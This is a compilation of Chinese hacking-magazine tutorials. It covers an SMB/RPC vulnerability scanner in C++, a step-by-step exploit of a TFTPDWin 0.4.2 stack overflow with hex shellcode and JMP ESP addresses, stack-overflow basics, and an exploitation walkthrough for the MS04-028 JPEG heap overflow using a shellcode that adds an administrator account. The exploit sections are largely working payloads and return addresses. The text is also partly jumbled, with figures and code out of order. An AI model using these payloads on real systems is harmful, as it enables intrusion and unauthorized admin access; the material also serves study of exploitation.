if(send(ClientSock, (const char*)SMB_Negotiate, sizeof(SMB_Negotiate) - 1, 0) < 0)
{
    printf("\n[-] send SMB_Negotiate failed\n");
    return -1;
}

len = recv(ClientSock, (char *)szRecv, sizeof(szRecv) - 1, 0);
if ((len <= 10) || (szRecv[9] != 0))
{
    printf("3\n");
    return -1;
}

// 发送 SMB_SessionSetupAndX
if(send(ClientSock, (const char *)SMB_SessionSetupAndX,
sizeof(SMB_SessionSetupAndX)-1, 0) < 0)
{
    printf("\n[-] send SMB_SessionSetupAndX failed\n");
    return -1;
}

len = recv(ClientSock, (char *)szRecv, 4096, 0);
if (len <= 10 || (szRecv[9] != 0))
{
    printf("4\n");
    exit(0);
}

// 发送 SMB_TreeConnectAndX
if(send(ClientSock, (const char *)SMB_TreeConnectAndX,
sizeof(SMB_TreeConnectAndX), 0) < 0)
{
    printf("\n[-] send failed\n");
    return -1;
}

len = recv(ClientSock, (char *)szRecv, 4096, 0);
if ((len <= 10) || (szRecv[9] != 0))
{
    printf("6\n");
    return -1;
}
```

```cpp
{
    printf("can't get namedpipe! %d\n", GetLastError());
    return -1;
}
```

BindRpcInterface 函数实现为：

```cpp
BOOL BindRpcInterface(HANDLE PH, char *Interface, char *InterfaceVer)
{
    BYTE rbuf[0x1000];
    DWORD dw;
    struct RPCBIND RPCBind;
    BOOL bRet;
    memcpy(&RPCBind, &PRPC, sizeof(RPCBind));
    UuidFromString((unsigned char *)Interface, &RPCBind.InterfaceUUID);
    UuidToString(&RPCBind.InterfaceUUID, (unsigned char **)&Interface);
    RPCBind.InterfaceVerMaj = atoi(&InterfaceVer[0]);
    RPCBind.InterfaceVerMin = atoi(&InterfaceVer[2]);
    bRet = TransactNamedPipe(PH, &RPCBind, sizeof(RPCBind), rbuf, sizeof(rbuf), &dw, NULL);
    return bRet;
}
```

最后进行漏洞判断。

```cpp
// 发送请求 RPC request 包
BOOL ret = ScanPNP(hFile);
```

ScanPNP 实现细节：

```cpp
BYTE rbuf[0x100] = {0};
DWORD dw;
if(!TransactNamedPipe(PipeHandle, szScan, sizeof(szScan), rbuf, sizeof(rbuf), &dw, NULL))
{
    printf("Can't get scan data!\n");
    return FALSE;
}
if(dw != 0x48)
{
    return FALSE;
}
if(rbuf[0x44] != 0x0b) // 大家看着，就差一个字节的差别
{
    return FALSE;
}
return TRUE;
```

这里，我将建立 IPC 空连接的过程按照 SMB 协议分别写出，而没有直接用 WNetAddConnection2 函数的原因有两个：

- 一是 WNetAddConnection2 函数只连接 445 端口，如果连接失败不再尝试连接 139 端口；
- 二是我发现用 WNetAddConnection2 建立空连接后，代码在访问命名管道的时候会出错。

获取管道客户端句柄：

```cpp
char szPipe[MAX_PATH];
HANDLE hFile;
// 打开命名管道 "\\server\pipe\browser" 客户端句柄
_snprintf(szPipe, sizeof(szPipe), "\\\\%s\\pipe\\browser", argv[1]);
hFile = CreateFile(szPipe,
    GENERIC_READ|GENERIC_WRITE, 0, NULL,
    OPEN_EXISTING, 0, NULL);
if(hFile == (HANDLE)(-1))
{
    printf("can't find named pipe\n");
    return -1;
}
```

接下来就是访问 RPC 接口了，RPC 接口是需要先 Bind 后发送请求的。

```cpp
// BIND rpc接口
if(BindRpcInterface(hFile, "8d9f4e40-a03d-11ce-8f69-08003e30051b", "1.0"))
```

代码中用到的 SMB 和 RPC 协议数据，以及完整的扫描代码我会和文章附在一起，大家可以看看。

#### 小结

好了，本文和大家一起讨论了溢出漏洞的扫描，写得比较杂乱，但也希望对大家学习有点帮助。同时，我也感谢绿盟的小四哥（SCZ），他无私的技术共享精神和热心的帮助，使我对 SMB 协议、RPC 协议以及 TCP/IP 栈的认识比以前有了较大的提高。最后欢迎大家和我交流。

## 新手溢出 TFTPD


文/图 雪山[SLS]

一直想找个机会好好学一下溢出，可惜总是太忙没时间，谁叫我是好学生了。不过这次学院有个比赛恰好要用到溢出，于是就找了篇新手学溢出的文章看看，加上自己写程序做实验，最终搞定了这个题目。题目就是 Windows 2003+SP0 下的 TFTPDWin v0.4.2 的溢出。我开始的实验是在 Windows XP+SP2 下进行的，成功后再转移到 Windows 2003 下也很方便。

TFTPDWin v0.4.2 程序的漏洞已经公布出来了，它在处理超长文件名时有栈溢出，长度为 284 字节。我先用下载超长文件名的文件试了一下，结果如图1所示。


图2

看到没有，程序出错了！马上用 OllyDBG 调试一下，不过想找出是在哪里产生的错误也不是很容易的。我大致想了一下 TFTPD 的工作流程：它先用 recvfrom() 接收到客户端的文件下载请求，再在子函数里用 strcpy() 把接收到的文件名复制到一个局部变量里做一些判断，应该就在这后面发生了溢出，所以我先找出了调用 recvfrom() 的地方，如图2所示。


图1

还真是有点运气啊，只有一个调用了这个函数的地方，那就在这里设置断点吧！按 F9 运行，再用客户端测试，到断点之后一路按 F8 跑起来，到了 00412B78 这里出现了错误，这句的汇编代码是“CALL 0041307C”，那肯定就是在这个子函数里面出现了错误。重新开始调试，运行到“CALL 0041307C”的时候就用 F7 进入到这个子函数，然后再按 F8 跑起来，中间有一个循环可以在下面设置断点跳过，再到后面一点就出错了，不过一看只是 strcpy 的目的地址为 000000a0 而导致函数执行出错，具体是什么错误我没搞清楚，但是我相信它应该破坏了堆栈。

接下来我把覆盖字符从 a 变到 abcdefg 再试一下，果然出现了不同，在 004131E1 这里发生了错误，汇编代码是“CALL 0040638B”，同样是调用了一个子函数，其错误信息如图3所示。


图3

EIP 出错！看来这次是对了。再次调试，在 004131E1 处设置断点再按 F7 步进看看，进去之后果然在返回时出错了，看来突破点就在这里了，错误是 00006766 不可读，那就说明是最后两个字母 fg 覆盖了 ret 地址。再往前找一下出现覆盖返回地址的地方在哪里，如图4所示。看来 TFTPD 就是由于先申请了一段空间用来存放传进来的文件名，再由上面选中的那个 strcpy(004063A4) 把文件名复制进来，由于没有考虑到溢出，所以导致超长文件名覆盖返回地址了，这个具体过程大家可以自己分析一下。既然根源找到了，再把 fg 替换成 JMP ESP 的机器码。


图4

```text
31 31 31 31 31 31 31 31 31 31 (abcde)61 62 63 64 65
(jmp esp)12 45 fa 7f (shellcode)55 8B EC 33 FF 57 83
EC 08 C6 45 F4 63 C6 45 F5 6F C6 45 F6 6D C6 45 F7 6D
C6 45 F8 61 C6 45 F9 6C C6 45 FA 64 C6 45 FB 2E C6 45
FC 2E C6 45 FC 63 C6 45 FD 6F C6 45 FE 6D 45 F4 50 B8
C7 93 BF 77 FF D0 00 6F 63 74 65 74 00
```

这是 TFTPD 请求数据包的应用层数据的十六进制码，不过结果有点意想不到，在中途就出现了意外……说明这个地址不存在，所以这个 strcpy 是执行不成功的。JMP ESP 后面的 ShellCode 影响了前面函数的参数……这样就可以执行下面的 ShellCode 了。

机器码再次测试，果然成功了，接下来就是加上 ShellCode 了（发送数据可以自己写程序，也可以用一些网络程序调试工具）。我先加载了一个很简单的打开 command.exe 窗口的一个 ShellCode，代码如下。

```asm
mov ebp, esp ; 把当前esp赋给ebp
xor edi, edi ; push edi
; 压入0，esp-4，作用是构造字符串的结尾\0字符
sub esp, 0Ch
; 加上上面的一共有12个字节，用来放command.com
mov byte ptr [ebp-0ch], 63h ; c
mov byte ptr [ebp-0bh], 6fh ; o
mov byte ptr [ebp-0ah], 6dh ; m
mov byte ptr [ebp-09h], 6Dh ; m
mov byte ptr [ebp-08h], 61h ; a
mov byte ptr [ebp-07h], 6ch ; n
mov byte ptr [ebp-06h], 64h ; d
mov byte ptr [ebp-05h], 2Eh ; .
mov byte ptr [ebp-04h], 63h ; c
mov byte ptr [ebp-03h], 6fh ; o
mov byte ptr [ebp-02h], 6dh ; m
lea eax, [ebp-0ch]
push eax ; command.com 字地址作为参数入栈
mov eax, 0x7801AFC3
call eax ; call System函数的地址
```


图5

这是我在网上找的一段代码，由于这个程序已经加载了 msvcrt.dll，所以只需要这一段……把这一段代码转换成十六进制码之后，加在数据后面也不长，加上之后再次测试。

说句题外，这个过程有点漫长，不过最终找到了一个比较好的地址 7d78ff33，这个地址作为指令就是 33 ff 78 7d……在不同操作系统中只需要改 7d 就可以了，不会影响指令的执行。

```text
00 01 31 31 31 31 31 31 31 31 31 31 31 31 ...
31 31 31 31 31 31 31 31 31 31 31 31 31 31 ...
31 31 31 31 31 31 31 31 31 31 31 31 31 31 ...
```

```text
00 01 31 31 31 31 31 31 31 31 31 31 31 31 ...
31 31 31 31 31 31 31 31 31 31 31 31 31 31 ...
31 31 31 31 31 31 31 31 31 31 31 31 31 31 ...
```

```
31 31 31 31 31 31 ...
...
65 (JMP ESP) 12 45 FA 7F（特殊字节）33 FF 78 7D（shellcode）55
8B EC 33 FF 57 83 EC 08 C6 45 F4 63 C6 45 F5 6F C6
45 F6 6D C6 45 F7 6D C6 45 F8 61 C6 45 F9 6E C6 45 FA 64
C6 45 FB 2C C6 45 FC 63 C6 45 FD 6F C6 45 FE
6D 8D 45 F4 50 B8 C7 93 BF 77 FF D0 00 6F 63 74 65 74 00
```

这个问题搞定后，下面该定制自己的ShellCode了。由于我执行的命令行比较长，所以把命令行放在了那一堆的1里面，这样就大大缩短了后面的ShellCode的长度。图6所示是调试中的结果，只有几行ShellCode就完成了超长的命令执行，还可以吧？

既然Windows XP下测试成功了，下面就该转到Windows 2003下了。过程相当简单，换一下system()的地址，再将那4个特殊字节换为33FF7877即可。

图6

TFTPD是我做的第一个溢出，不过感觉这个溢出还是蛮有意思的，大家可以自己试试看。由于我的水平有限，文中有些内容可能讲得不太专业或有错误，还请高手们多多指点了！

> 【本文涉及的代码（程序），请见随书光盘】

## 初探堆栈溢出

文／图 汤力

看了网上很多溢出的基础教程，觉得还是有点模糊，于是自己也调试了一下，通过表面现象看到了溢出的本质，确实也让自己思维开阔不少。在这里，希望能把我分析调试的经验带给大家。通过本文，你可以了解到反汇编程序的简单分析方法以及堆栈栈顶和栈底的确认。

我们先写个最简单的VC++程序，新建工程，选择Win32 Console Application，选择“a simple application”，源代码如下。

```c
int main()
{
    char output[10];
    return 0;
}
```

以上程序的作用是把name的数据复制到output中，程序A分配的空间刚好合适，而程序B的name是26个英文字母，output和程序A一样，只有10个，就产生了溢出。

正常程序A：

```c
#include "stdafx.h"
#include "stdio.h"
#include "string.h"
char name[]="abcdefghij";
int main()
{
    char output[10];
    strcpy(output,name);
    return 0;
}
```

会溢出的程序B：

```c
#include "stdafx.h"
#include "stdio.h"
#include "string.h"
char name[]="abcdefghijklmnopqrstuvwxyz";
```

用LordPE可以查看该程序入口点在00401040。反汇编程序（工具是OllyDbg）确实是从这里开始的，如图1所示。首先“PUSH EBP”，保护现场环境，这不是我们堆栈的重要分析部分，只是整个程序的开始。

图1

VC++编译的程序，GetVersion是个标志。VC++编译的程序第一个调用的函数就是GetVersion，如图2所示。直到这里，“CALL 00401000”调用真正的程序并且分配堆栈，如图3所示。我们需要在004010EF跟进，并在00401000设置断点。进入00401000，就是我们分析的重点了，请随时注意堆栈的情况。

```asm
MOV DWORD PTR SS:[EBP-18],ESP
CALL DWORD PTR DS:[<&KERNEL32.GetVersion>]
```

```asm
00401000 /$ SUB ESP,0C
...
0040102F    ADD ESP,0C
00401032    RETN
```

“PUSH（4*2=8）”、“0x0C + 8 = 0x14”，那么堆栈只会在当前栈顶（0x0012FF84）和0x0012FF70之间变化。0x0012FF70便是栈底，故我们重点关注这个区域的数据变化情况。

#### 2）程序的数据保护与恢复

“00401000 /SUB ESP,0C”对应“0040102F |ADD ESP,0C”。00401000为output分配空间。原程序A、B中，output应该是10个字节空间，由于堆栈的分配是4字节对齐，所以分配了0C个，也就是12个（12是4的整数倍），0040102F则恢复栈顶。

> 大家可以修改源程序中output的大小，比如改为8，可以看到这里的0C会相应改变。

### 以下语句相互对应：

```asm
0040100C  PUSH ESI               <-> 0040102D  POP EDI
0040100D  PUSH EDI（保护现场）   <-> 0040102E  POP ESI（恢复现场）
```

为什么要保护现场呢？因为要用ESI、EDI复制数据，将ESI、EDI压入堆栈保护数据，用完以后当然要恢复数据。

#### 3）溢出

当运行到“00401022 |REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]”时，由于一连串的数据复制而未作安全检查，堆栈发生突变……

程序A与程序B的反汇编代码一样，数据段如图4和图5所示。可以看出，00405030是要复制的数据，0040100E处调用该段数据（`MOV EDI, yichu2.00405030`），0x61就是字母a。下面我们详细分析一下。

- 1）栈顶和栈底的确定

断在00401000时的堆栈如图6所示。在OllyDbg中，堆栈区的黑色表示当前栈顶，它的值与ESP相等，即这里的0012FF84就是栈顶。

纵观这段代码，有一个“SUB ESP,0C”……

希望初学者在学习过程中一定要亲自动手，哪怕是像源程序这样简单的代码，也最好自己录入，只有你亲自实践了每一个小的环节，才会有最真实的收获。

## 分析篇

### 堆栈溢出点定位原理分析

文/图 icxb

大家都知道，缓冲区溢出的利用可以简单地分成3个步骤：①漏洞分析，定位溢出点；②编写ShellCode；③修改溢出点，使其能够跳转到ShellCode的内存地址。这样有漏洞的程序便会改变执行流程，进入到我们精心构造的ShellCode中，从而达到攻击的目的。

上面步骤虽然少，但十分精炼，每一步都不是那么简单的。ShellCode相信是大家比较熟悉的，《黑防》几乎期期都有讲解，它的编写涉及各方面知识，并且每一个漏洞对ShellCode都有不同限制，所以它的编写需要很深厚的编程功底和底层逆向分析能力。修改溢出点，常用的是JMP ESP和覆盖异常CALL/JMP EBX，但是操作系统或者程序不一样，限制也不一样……

#### 缓冲区堆栈溢出原理

不管是杂志上，还是网络上，都有很多通过溢出经典函数strcpy讲解堆栈溢出的，几乎都是使用如图1所示的草图。其原理是：当复制的字符串长度超过了buffer的大小，便会覆盖EBP和EIP，比如都覆盖为A（十六进制41），当系统返回的时候会恢复EIP并读取之，这时候因为EIP被覆盖了，再比如出现41414141不可读的错误……

|  |
|---|
| …………………… |
| 系统或程序分配的缓冲区buffer大小 |
| 堆栈寄存器EBP |
| 进入函数前保存的EIP |
| …………………… |

图1

#### 堆栈溢出定位的方法

关于堆栈溢出定位的办法，主要有两种。一种是通过不断修改字符串长度，通过OllyDbg等调试器或者系统错误提示来直接分析出溢出点；另一种是通过字符串有规律的循环来计算出溢出点的位置。关于这两种方法的详细操作步骤，这里就不讨论了，不过后面的讲解也会稍有涉及。

#### 堆栈溢出定位的原理

相信大家和笔者一样，在定位有堆栈溢出漏洞程序的时候，大多经常采用上面的两种办法，特别是后者。但是方法毕竟只是属于技巧……下面就带着上面的两个疑问和大家来分析讨论一下，毕竟实践出真知嘛！我们先写一个将会出问题的程序吧，很简单，相信会一点C语言的读者都可以看懂。

```c
#include <stdio.h>
#include <string.h>

void overflow(char *buf)
{
    char out[400];
    int i;
    strcpy(out, buf);   // 溢出问题函数
    for (i = 0; i < 300; i++)
        printf("\\x%x", out[i]);
}

int main(void)
{
    char buf[500] = {0};
    int i;
    for (i = 0; i < 300; i++)
        buf[i] = 'A';
    overflow(buf);
    return 0;
}
```

```asm
// ecx入堆栈，此时esp-412
call overflow.00401120
// strcpy函数 -> strcpy(ecx, eax)
add esp, 8
// 堆栈平衡，esp+8，此时esp-404

// 下面进入for循环
mov dword ptr ss:[ebp-194], 0
jmp short test.00401037
add edx, 1
mov dword ptr ss:[ebp-194], edx
cmp dword ptr ss:[ebp-194], 190
jge short test.00401073
mov eax, dword ptr ss:[ebp-194]
movsx ecx, byte ptr ss:[ebp+eax-190]
test ecx, ecx
je short test.00401073
mov edx, dword ptr ss:[ebp-194]
movsx eax, byte ptr ss:[ebp+edx-190]
push eax
push test.00406030 ; ASCII "\\x%x"
call test.004010C7
add esp, 8
jmp short test.00401028
// 以上为for循环，打印AAAAAAAA......

mov esp, ebp
// 将ebp的值送给esp，此时esp=-4
pop ebp
// 恢复ebp原先保存的值，出栈esp+4，此时esp=0
// 也就是重新指向eip
retn
// 这个retn要注意！
```

当然，上面是一个正常的程序test.exe，结果是打印300个字符A。这里分析test.exe主要是为了分析一下堆栈里的正常情况，从而解决第一个问题。大家都知道在进入一个函数的时候，程序都会将指向下一条指令的寄存器EIP压入堆栈，以便返回时能够继续保持程序正常运行。那么，具体的情况是怎样的呢？

我们用OD载入test.exe，进入到overflow函数的时候，在堆栈窗口我们可以看见EIP:004010DD已经被压入堆栈。通过OD，我们也知道，在此之前，overflow函数的参数也已经被压入堆栈，其结构如下：

|  |
|---|
| 指令寄存器EIP |
| 堆栈指针ESP此时也指向这里 |
| overflow函数的参数（如传递的AAAA...） |

进入overflow函数后，我们来分析一下汇编代码。此处要注意，入栈一次esp-4，出栈一次esp+4。

```asm
push ebp
// 将ebp压入堆栈，esp-4（原本esp指向eip）
mov ebp, esp
// 将esp的值送入ebp，由ebp操作堆栈
sub esp, 194
// 开辟缓冲区空间大小404（16进制194）
mov eax, dword ptr ss:[ebp+8]
// [ebp+8]处为overflow函数参数
push eax
// 将eax压入堆栈，esp-4
lea ecx, dword ptr ss:[ebp-190]
// ecx指向程序所分配的缓冲区
push ecx
```

在汇编语言中，retn相当于pop eip，也就是将esp的值送到eip中，而esp的内容就是当前eip的内容，通过最后几条汇编代码，我们知道这样的传送方式是esp->eip。

通过我们的分析实践，可以得出如图2所示的草图来概括overflow函数的简单堆栈结构。

|  |
|---|
| 系统或程序分配的缓冲区大小 |
| 寄存器EBP |
| 进入函数前要保存的指令寄存器EIP |
| overflow函数的参数 |

图2

通过上面的OD调试实践，我们可以得到以下结论：在进入函数前程序会将指向下一条指令的EIP寄存器压入堆栈，以便返回时恢复；进入函数后，将寄存器EBP压入堆栈保存（正如图2所绘草图），再将ESP的内容送到EBP中，由EBP操作控制堆栈；紧接着压入的就是一些参数以及执行其他一些函数……

函数返回时，执行`mov esp, ebp; pop ebp`将EBP的内容还给ESP，EBP弹出堆栈，恢复原先的值；执行`retn`，将ESP寄存器指向的内容送到EIP中，程序读取EIP内容，然后继续执行……

我们可以看出，函数`strcpy`没有进行边界检查，如果我们输入的参数超过400，那么多出的就会覆盖EBP和EIP。在函数返回的时候，ESP指向了被覆盖的EIP的值，最后执行`retn`的时候，再把已覆盖的值给EIP，此时肯定会出错！

既然程序在函数返回时是读取EIP的内容，如果我们把EIP的内容覆盖为ShellCode的地址，那么溢出攻击便实现了。通过我们的分析，可以得知第一个问题的草图就是这样分析出来的。具体问题需要具体分析，不同有问题的函数堆栈结构还是有差别的。

这里有个小知识，VC编译器是按4字节对齐的。按照前面的分析，我们对源代码进行分析的话，`400/4=0`，EBP占4个字节，那么从404字节开始便是EBP。但是这属于看着源代码进行的白箱测试，大多数情况下我们都是黑箱测试，也就是系统和程序到底分配多大的缓冲区我们是不知道的。在这样的情况下，可以根据正常情况下得出的分析和草图来定位溢出点。

我们将上面C代码第15行的for循环的300改为500，OD载入运行，将会看见熟悉的提示，如图3所示。

图3

通过上面的分析，我们知道，过多的A（十六进制41）将EBP覆盖了，返回前`EBP->ESP->EIP`，最后函数返回后程序便读取EIP的内容，而此时EIP的值是不可读的，于是程序就出错了。

第一种办法就是不断修改字符串长度，直到定位溢出点（比如，350个字节正常，402个字节未完全覆盖，加到403的时候就完全覆盖了，那么从404个字节开始就是溢出点了），最好是用脚本来实现。

第二种办法是先保持字符串长度为500，此时会产生图3所示的错误，然后将C代码第16行改为`buf[i] = 'A'+i/10;`，运行程序得到如图4所示的提示。

图4

再将第16行改为`buf[i] = 'A'+i%10;`，运行程序得到如图5所示的提示。

图5

然后用`0x69-0x41=0x28`、`0x45-0x41=0x4`，将0x28和0x4转换为十进制，得到40和4，最后`40*10+4`得出溢出点为404。赋值语句`buf[i] = 'A'+i/10;`可知字符串是从A（0x41）开始按每10个数循环的，没有重复地填充缓冲区。当执行到`retn`时，ESP的内容已经是`69696969`，这正是EIP被覆盖的体现，如图6所示。

图6

又因为是按每10个数循环，所以距离EIP是`40*10=400`个字节。但i也是循环10次，到底是哪些覆盖了EIP，我们还需要进一步确定。而`buf[i] = 'A'+i%10;`是在A~J循环（0x41~0x4A），所以当系统报错48474645不可读时，按照同样分析可以得出进入EIP寄存器的第一个字节在0x45处。注意Windows堆栈是按高地址向低地址分配的，所以第一个字节是0x45而不是0x48。因为是一个字节循环，所以0x45与0x41相隔4个字节，最后可以得出溢出点是从`400+4=404`个字节开始，这与白箱测试结果一致。

#### 小结

大家可以把out数组的长度改为398，最后得出覆盖点也是404。为什么呢？VC编译器按4字节对齐，在为out数组分配空间的时候，按4字节也会分配400个字节大小的缓冲区。

虽然这只是一个小小的分析，但我觉得有问题就要想办法解决，最好是自己动手，这样可以增强自己的逆向分析能力。很多时候，教程讲解的都是和作者操作机器或者程序有关，所以自己动手实践一下，会学会很多以前没学到的东西。

> 【本文涉及的代码（程序），请见随书光盘】

## 巧妙分析JPEG处理漏洞

文/图 王炜 / wv0830

**WTF!** 技术的巅峰或许是很多人穷尽一生都在不断追求的目标，为技术而痴狂的牛人们放弃了人生路边的花花草草，将有限的时间用在了无限的技术突破上，取得了一个又一个值得我们“顶礼膜拜”的成果。虽然我们不建议任何读者用“呕心沥血”的方式去学习、研究技术，并以此为根本为大家尽可能多地提供一些最详尽的技术资料和研究方法，以图大家能最快地掌握到最新的技术和最高级的技巧——比如连续推出的《菜鸟版Exploit编写指南》系列文章，无疑凝聚了几位作者多年的宝贵研究经验和心得，用“珍品”来形容绝不为过。

今年微软发布了MS04-028的漏洞公告，公告的内容是说Windows XP、Windows XP SP1和其他一些应用软件在处理伪造JPEG图片的时候会有漏洞。产生问题的是GDIPlus.dll，大家可以在自己的计算机上搜索这个文件，有可能找到很多个，那是因为一些软件安装后，也会带有这个DLL文件。这是一个堆溢出漏洞，利用起来难度比较大。正好我也刚开始学习堆的溢出，就抱着学习的态度，分析这个漏洞的利用。在这里更多的是介绍自己的一些方法和思路。

数据明注释数据的长度+2，这里的2是长度值本身占用的2个字节，再后面为注释数据。一个合法的注释段如图1所示。

| 注释标志 | 注释段长度 | 注释数据 |
|---|---|---|
| 0xFFFE | 0x0006 | 0x30383330 |

图1

注释数据“0x30383330”为4个字节，所以长度值 = 4+2=6。当系统要复制注释内容的时候，就分配长度值-2 = 6-2 = 4 的空间，然后把注释内容复制到那个空间去。

#### 漏洞起因：千虑必有一疏

JPEG图像的格式主要如下：

| 标记 | 含义 |
|---|---|
| 0xFFD8 | 图像开始标志 |
| 0xFFE0 ~ 0xFFEF | 应用0~应用F标志，标志后面接相关数据，下同 |
| 0xFFFE | 注释标志 |
| 0xFFDB | 量化表标志 |
| 0xFFC0 | 帧开始标志 |
| 0xFFC4 | 哈夫曼表标志 |
| 0xFFDA | 图像数据标志 |
| 0xFFD9 | 图像结束标志 |

> JPEG（Joint Photographic Experts Group）是联合图像专家小组的英文缩写。该小组制定了首个图像压缩的国际标准算法——JPEG算法，用该算法产生的图像就是JPEG图像。JPEG图像具有极高的压缩比，被广泛地用在数码图像、计算机处理和网络传输上。

有兴趣的朋友可以看看相关文档对每个段的详细解释，这里就只说我们关心的部分——注释。JPEG的注释段允许把注释数据加入到JPEG图像中，注释段以0xFFFE为开始标志，后面2个字节的无符号数表明注释数据的长度+2。

在单个注释段中，可以包含的最大注释数据长度为65533字节。由于长度值本身占据的两个字节要计入到长度中，所以长度值的最小值为2，此时表示没有注释数据在后面——问题就在这里，如果长度值被伪造为0或1，那么GDIPlus.dll在处理的时候就会认为注释数据的长度为-2或-1，而-2或-1是无符号数的0xFFFE或0xFFFF，这样就分配大量的空间用于存储，结果把堆管理结构覆盖了。我们可以控制覆盖的数据，将相关的指针改写，这就是堆溢出的基本思路。

#### 堆溢出的利用初步：温故而知新

堆溢出的利用还是从3点考虑：溢出点的定位，这里指定位堆管理结构的相关指针；ShellCode的编写；通过覆盖相关指针，跳转到ShellCode。对于溢出点的定位，我们还是用F.Zh的方法。先打开SoftIce，用十六进制编辑器打开一个正常的JPEG图像，然后加上一个伪造的注释段，就是加上0xFFFE0001。先填充注释数据为全A，当查看修改后的JPEG图像时会出错，SoftIce弹出，可以看到是往0x41414141写的时候访问违例，然后改注释数据，填充为0～9的不断循环，这次出错可以定位溢出点的个位。再改注释数据为10个0，10个1……的序列，这次是为了定位高位。用公式“高位×10＋低位”计算出溢出点。最后我们验证一下，就是把计算出来的溢出点覆盖为BBBB，其他数据为全A，如果是报0x42424242出错，则说明定位正确，如图2所示。

JPEG文件开始，FFD8表示JPEG文件开始，FFE0表示APP0的开始，并且果然有一个FFFE0001的伪造注释段，之后是大量的填充字符，最后接需要的ShellCode和图像结束标志FFD9。

我们要用这个程序生成一个伪造的JPEG文件，只需要把这个程序的输出结果重定向到一个JPEG文件中即可。


图2

> WTF：这里的过程讲得很省略，如果有读者不太理解，可以参考本书《菜鸟版Exploit编写指南之一》和《Windows下堆溢出初步》，里面介绍方法很详细。

ShellCode对堆溢出来说，除了一般要注意的问题外，还有一些特殊的要求，比如要考虑堆的恢复等情况，这里可以用别人已经写好的ShellCode。跳转到ShellCode，可以使用SEH、PEB等方法，但都不是绝对通用和绝对有效，需要针对具体的漏洞和系统具体分析，这一步将是我们考虑的重点。

#### 站在巨人的肩上：分析现有程序

现在有了很多针对MS04-028漏洞的Proof和利用版本，但都是英文版的，而且都大同小异。我们可是一群菜鸟，要学习堆的溢出利用，自然要先学习别人是怎么利用的。随便使用哪个程序都可以，就分析一下Elia Florio写的WinJPEGAdminExp_MS04-028.sh吧。

第一步，先分析程序的结构。用EditPlus打开程序，发现只是各种十六进制字符，比如开始的部分，如图3所示。


图3

分析一下这些十六进制字符，发现就是按照刚才分析的JPEG文件格式构造出来的，比如FFD8表示JPEG文件开始，FFE0表示APP0的开始，并且果然有一个FFFE0001的伪造注释段……

第二步，分析ShellCode的功能。注释上说的是添加一个用户X，并加入到管理员组，那它是怎么实现的呢？经常看到有人问如何知道那些十六进制的ShellCode的真正功能，这里就顺便说一下。

我们打开VC，新建一个工程和C源文件，然后把ShellCode部分复制下来，存为一个数组，最后在Main中添上 `((void(*)(void))&ShellCode)();`，结果如图4所示。


图4

`((void(*)(void))&ShellCode)();` 这句话是关键，它把ShellCode转换成一个参数为空、返回为空的函数指针，并调用它。执行这句就相当于执行ShellCode数组里的那些数据。我们要知道那些数据是如何执行的，就需跟踪了。

按F10调试，并选中Debug工具栏的最后一个Disassembly按钮，出现汇编代码。多按几次F10，到 `((void(*)(void))&ShellCode)();` 下的Call eax时，表示马上要跳到ShellCode的那些数据去执行了，如图5所示。

这里按F11跟进去，就可以看到ShellCode的代码实现的是什么功能了，如图6所示。

经过跟踪和分析，我们可以知道，这个ShellCode写得很短小而且非常巧妙，它先动态查找Kernel32的地址，然后用Hash值动态查找需要函数的地址，最后通过调用 `LoadLibrary("netapi32")`、`NetUserAdd()` 和 `NetLocalGroupAddMember()` 来完成添加管理员的功能。

第三步，尝试运行程序。程序的结构和功能都分析得差不多了，接下来运行看看效果是怎么样的。在Windows下把.sh改为.pl后缀，将每行加上分号，把“perl -e 'print "\x41"x1601;'”改为“print "\x41"x1601”，并安装好ActivePerl for Windows，然后在命令行下执行：

```bash
WinJPEGAdminExp_MS04-028.pl > www.jpg
```

即可生成伪造的JPEG文件，如图7所示。


图7

打开这个生成的JPEG文件，怀着希望等了好一阵子，可惜什么都没有发生，然后不死心地用“net user”查看用户，也没有添加上新的用户，看来直接利用失败了！


图5


图6

#### 精彩属于自己：半手动成功利用漏洞

虽然直接使用老外的程序失败了，但做人是不能轻言放弃的，即使最后不能成功也要尽力研究看看。

这就是我们的菜鸟精神！再次打开SoftICE，并把溢出点改为0x42424242，重新生成JPEG文件并打开，这次看到出错了，SoftICE弹了出来，出错地方的代码为：

```asm
mov [edx], eax
mov [ecx+4], eax
```

> 小提示：看见这个信息，大家是不是联想到了标准的堆溢出呢？

此时Edx为我们写的数据0x42424242，由于该内存不能写，所以导致了访问错误。对于“mov [edx], eax”，如果我们把Eax的值构造成ShellCode的地址（比如0x11111111），把Edx的值构造成默认异常处理的地址（比如0x22222222），这样“mov [edx], eax”就是“mov [0x22222222], 0x11111111”，即用ShellCode地址覆盖默认异常处理地址，当出现异常时就会执行我们的ShellCode。

那么默认异常处理的地址和ShellCode的地址是多少呢？

用IDA打开Kernel32分析，在Functions中选中SetUnhandledExceptionFilter，有如下代码，如图8所示。


图8

> WTF! Windows XP默认异常的处理指针是0x77EB63B4。当有不能处理的异常发生时，系统会Call [0x77EB63B4]，即执行0x77EB63B4指向的异常处理程序。

在SoftICE中，执行“s eax L FFFFFF 66 81 ec 80 00”搜索ShellCode在内存中的地址，得到ShellCode的开始地址为0x03A45B16。于是我们在SoftICE中“r edx 0x77EB63B4, r eax 0x03A45B16”，把Edx改为0x77EB63B4，Eax改为0x03A45B16，改动后按F5继续执行，再看效果“net user”，嗯？！还是没有添加上新的用户？

看来失败只有一个原因了：改动了Edx和Eax的值后系统没有出现异常，所以没有机会执行我们的ShellCode。怎么办呢？出错的地方有两句代码：

```asm
mov [edx], eax
mov [ecx+4], eax
```

等计算机重新启动后，我们再“浏览”一下伪造的图像，再次出现异常被SoftICE捕捉到。这一次我们不仅把Eax改为ShellCode地址，还把Ecx改为0x77EB63B4-4=0x77EB63B0。改变后按F5继续执行，感觉系统有“响动”，马上用“net user”看一下，哈哈，这次终于成功了，我们的ShellCode成功执行，系统添加了一个名为X的管理员，如图9所示。


图9

虽然还不是全自动的程序，但通过不断的努力和尝试而获得成功，也会让我们这样的菜鸟兴奋不已。不过大家不要高兴得太早，还需要寻求全自动的利用方法呢！

#### 追求完美：全自动的漏洞利用

